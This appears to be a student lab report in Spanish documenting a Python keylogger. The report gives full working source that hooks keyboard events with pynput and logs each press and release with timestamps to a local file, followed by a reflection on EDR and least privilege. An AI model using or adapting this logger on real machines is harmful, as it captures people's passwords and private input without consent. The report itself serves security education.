


Act. 03: Keylogger
>> Implementación y Análisis
1. De qué trata la actividad
Esta actividad práctica consiste en la implementación y documentación de un programa informático diseñado para interceptar pulsaciones de teclado a nivel del sistema operativo.
Utilizando un modelo basado en event hooks y callbacks, el programa registra cada evento de entrada. El propósito fundamental es comprender el funcionamiento técnico subyacente de este tipo de captura de información para reconocer las implicaciones que tiene en el análisis de malware y la protección de endpoints.
2. Objetivos Específicos
-
>>
Implementar persistencia del registro.
-
>>
Establecer asociación temporal.
-
>>
Análisis y documentación.
3. Requisitos Técnicos
-
[*]
Entorno Controlado: Máquina virtual aislada.
-
[*]
Lenguaje: Python 3.x.
-
[*]
Librerías:
pynputydatetime. -
[*]
Permisos: Privilegios de escritura (TXT).
Aviso de Responsabilidad
El código y la información detallada en este documento han sido desarrollados en un entorno de laboratorio controlado y tienen propósitos estrictamente académicos. Su uso fuera de este contexto de aprendizaje autorizado constituye una violación de políticas de seguridad y puede tener consecuencias legales.
4. Código Fuente
import os
from pynput.keyboard import Key, Listener
from datetime import datetime
# Rutas para el archivo
script_dir = os.path.dirname(os.path.abspath(__file__))
log_filename = os.path.join(script_dir, "registro_teclas.txt")
def get_formatted_timestamp():
"""Genera la marca de tiempo en el formato YYYY-MM-DD HH:MM:SS.ms"""
now = datetime.now()
base_time = now.strftime('%Y-%m-%d %H:%M:%S')
ms = str(now.microsecond)[:3].zfill(3)
return f"{base_time}.{ms}"
def log_key_event(key_name, event_type):
timestamp = get_formatted_timestamp()
# Construir la línea integrando si es PRESS o RELEASE
log_line = f"{timestamp} | {event_type} | {key_name}"
# Imprimir en consola
print(log_line)
# Escribir en el archivo añadiendo un salto de línea
with open(log_filename, "a", encoding="utf-8") as file:
file.write(log_line + "\n")
#Funcion para detectar si se presiona una tecla
def on_press(key):
try:
key_name = key.char
except AttributeError:
key_name = str(key).replace('Key.', '')
# Enviamos la etiqueta PRESS
log_key_event(key_name, "PRESS")
#Función para detectar cuando se solto la tecla
def on_release(key):
# Primero procesamos qué tecla se soltó
try:
key_name = key.char
except AttributeError:
key_name = str(key).replace('Key.', '')
log_key_event(key_name, "RELEASE")
# Después verificamos si era la tecla para salir
if key == Key.esc:
print("Saliendo y guardando registro...")
return False
print("Escuchando teclas... Presiona ESC para salir.")
with Listener(on_press=on_press, on_release=on_release) as listener:
listener.join()
5. Evidencia de Ejecución
Capturas de pantalla del entorno controlado. [CLIC PARA AMPLIAR]

> Captura_Terminal_Ejecución

> Captura_Archivo_Log.TXT
6. Análisis Técnico y Reflexión
El desarrollo y ejecución de este keylogger demuestra como algo tan simple puede llevarse a una amenaza real si no se aplican controles de privilegios estrictos. Al implementar la captura de eventos y su persistencia en un archivo local, se demuestra qué tan fácil se pueden comprometer credenciales y datos confidenciales sin alterar la interfaz del usuario.
Comprender la anatomía de estas amenazas desde un enfoque ofensivo resulta vital para poder diseñar defensas robustas. La asociación temporal (timestamps) implementada en el código no solo simula la recolección estructurada de datos por parte de un atacante, sino que también ilustra el tipo de metadatos exactos que un analista forense buscaría al trazar la línea temporal de una brecha de seguridad.
>> Evaluación de Impacto:
Esta práctica técnica refuerza la necesidad crítica de implementar soluciones EDR (Endpoint Detection and Response) y arquitecturas de privilegios mínimos en las infraestructuras de red, con el fin de detectar comportamientos anómalos de "hooking" en los procesos del sistema en tiempo real.